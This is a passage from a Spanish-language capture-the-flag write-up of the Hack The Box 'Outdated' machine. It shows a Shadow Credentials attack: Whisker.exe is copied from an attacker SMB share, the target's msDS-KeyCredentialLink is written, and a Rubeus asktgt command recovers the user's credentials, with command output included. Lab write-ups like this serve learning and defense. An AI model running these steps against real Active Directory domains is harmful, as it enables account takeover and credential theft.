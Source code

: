 > The members of the group ITSTAFF@OUTDATED.HTB have the ability to write to the "msds-KeyCredentialLink" property on SFLOWERS@OUTDATED.HTB. Writing to this property allows an attacker to create "Shadow Credentials" on the object and authenticate as the principal using kerberos PKINIT.

Es decir, podemos crear unas Shadow Credentials para poder autenticarnos como este usuario sin cambiar las credenciales reales de este usuario usando su hash NTLM.

Para ello podemos descargarnos [Whisker.exe](https://github.com/jakobfriedl/precompiled-binaries/raw/main/Specific/Whisker.exe) y moverlo a la máquina víctima.

```shell
C:\Users\btables\Documents>copy \\10.10.14.125\smbFolder\Whisker.exe .
copy \\10.10.14.125\smbFolder\Whisker.exe .
        1 file(s) copied.
```

Ahora también necesitamos movernos el [Rubeus](https://github.com/jakobfriedl/precompiled-binaries/raw/main/Rubeus.exe) a la máquina víctima.

Ahora ejecutamos el `Whisker.exe`
```shell
C:\Users\btables\Documents>.\Whisker.exe add /target:sflowers
.\Whisker.exe add /target:sflowers
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password 2Y8ae12sDimFg3QJ
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
....
```

Esto nos generará un comando para recuperar las credenciales con Rubeus.

Simplemente lo copiamos y lo pegamos.

Estuve teniendo problemas con la shell ya que `Rubeus` no me reportaba el output, así que lo que hice fue exportar el certificado a un archivo y así utilizarlo desde `Rubeus`.

```shell
PS C:\Users\btables\Documents> .\Whisker.exe add /target:sflowers /path:cert.pfx
.\Whisker.exe add /target:sflowers /path:cert.pfx
[*] No pass was provided. The certificate will be stored with the password LRBT7MkOUQuRDTLp
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 822fd180-c3b2-4f78-825a-50d9291f9aa0
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Saving the associated certificate to file...
[*] The associated certificate was saved to cert.pfx
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:sflowers /certificate:cert.pfx /password:"LRBT7MkOUQuRDTLp" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show
```
